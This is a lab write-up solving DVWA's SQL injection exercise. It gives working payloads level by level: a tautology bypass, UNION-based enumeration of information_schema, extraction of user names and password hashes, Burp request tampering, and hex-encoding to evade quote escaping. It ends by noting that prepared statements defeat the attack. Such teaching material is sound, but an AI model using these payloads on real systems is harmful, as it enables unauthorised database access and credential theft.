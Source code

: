 # DVWA - SQL Injection Solution

## Low level

In this level we can see the web doesn't filter any character.

![](https://i.imgur.com/RA0RxD7.png)

So, we can use `' or '1' = '1` to bypass and get the all data inb SQL. 

![](https://i.imgur.com/F5Wyop9.png)

We also can use `1' or 1=1 order by 1 #` or `1' union select 1,2 #` to guess how many column there have in the SQL. 
Use `1' union select 1,database() #` to know what database we are. 

![](https://i.imgur.com/AObQp2l.png)

Use `1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #` to get the table.

![](https://i.imgur.com/x5QwtGW.png)

Use `1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #` to get the text of the table.

![](https://i.imgur.com/vzKXgPJ.png)

Use the `1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #` to download all of data in the table.

![](https://i.imgur.com/IZdCYXR.png)

## Medium level

In this level we can see, it use the scroll bar to select. And it use `mysql_real_escape_string` to transfer some character. So, we can use the brup suite to edit the package.

![](https://i.imgur.com/CYYdgfT.png)

Edit the id to `1 or 1=1` .

![](https://i.imgur.com/DR93MPl.png)

And we can get the all of the data in SQL.

![](https://i.imgur.com/CI1BexM.png)

We can use the same like the low level to get the information in SQL. 
Notice if we need to use `1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #` the `'` is transfered to `/'`. Therefore we can transfer the `user` to hex like `1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #`

## High level

We can see in high level it use `LIMIT 1` to limit the output, but we can use `#` to skip the text after `#`.
Then we can use the way like Low level to bypass.

![](https://i.imgur.com/bklYR19.png)

## Impossible level

In this level it use the PDO and add the Anti-CSRF token to avoid the SQL injection and CSRF attack. So, we don't have any way to use the SQL injection to attack.
